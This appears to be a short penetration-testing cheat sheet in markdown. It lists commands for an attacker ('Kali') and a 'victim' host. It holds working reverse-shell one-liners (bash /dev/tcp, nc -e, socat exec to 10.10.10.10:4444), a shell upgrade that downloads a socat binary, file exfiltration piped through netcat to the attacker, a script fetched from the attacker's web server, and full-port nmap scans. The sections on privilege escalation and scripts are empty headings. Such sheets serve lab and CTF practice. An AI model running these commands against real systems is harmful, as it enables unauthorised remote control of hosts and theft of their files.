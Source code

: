 # Useful Commands

## Create web server

### With Python

```
python3 -m http.server 8888
``` 

```
python -m SimpleHTTPServer 8888
```

## Upgrade reverse shell

### With Socat

*Victim:* 
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat
chmod +x socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```
        
*Kali:*
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

### With Python

*Victim:* 
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

## Send files

### With netcat

*Victim:*
```
cat file.txt | nc -q 0 10.10.10.10 4444
```

*Kali:*
```
nc -lvp 4444 > file.txt
```

### With web server

*Kali:*
```
python3 -m http.server 8888``` or ```python -m SimpleHTTPServer 8888
```

*Victim:* 
```
wget http://10.10.10.10:8888/something.sh -O something.sh
```

## Reverse shells

### With bash

```
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

```
nc -lvp 4444
```

### With netcat

```
nc -e /bin/sh 10.10.10.10 4444
```

```
nc -lvp 4444
```

# Enumeration

### Nmap

TCP Scan:

```
nmap -sV -sC -p- 10.10.10.77
```

UDP Scan:

```
nmap -sU -sV -p- 10.10.10.77
```

# Privilege Escalation

# Some Scripts

# References
